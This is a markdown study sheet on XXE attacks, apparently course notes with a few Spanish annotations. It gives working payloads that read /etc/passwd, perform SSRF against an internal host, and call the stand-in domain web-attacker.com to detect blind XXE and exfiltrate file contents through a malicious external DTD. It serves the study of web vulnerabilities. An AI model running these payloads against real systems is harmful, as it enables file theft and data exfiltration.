 #### Exploiting XXE to retrieve files
~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
~~~

#### Exploiting XXE to perform SSRF attacks
~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
~~~

#### Blind XXE vulnerabilities
##### Detecting blind XXE using out-of-band (OAST) techniques
~~~xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
~~~

##### With params
+ First, the declaration of an XML parameter entity includes the percent character before the entity name:
+ And second, parameter entities are referenced using the percent character instead of the usual ampersand:

~~~xml
<!-- <!ENTITY % myparameterentity "my parameter entity value" > -->
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
~~~ 
+ Observa la declaración de la variable con `% variable`
+ El uso de la variable con `%variable;` dentro de los corchetes

#### Exploiting blind XXE to exfiltrate data out-of-band
~~~xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
~~~

~~~xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
~~~
+ This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server.
+ This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead.
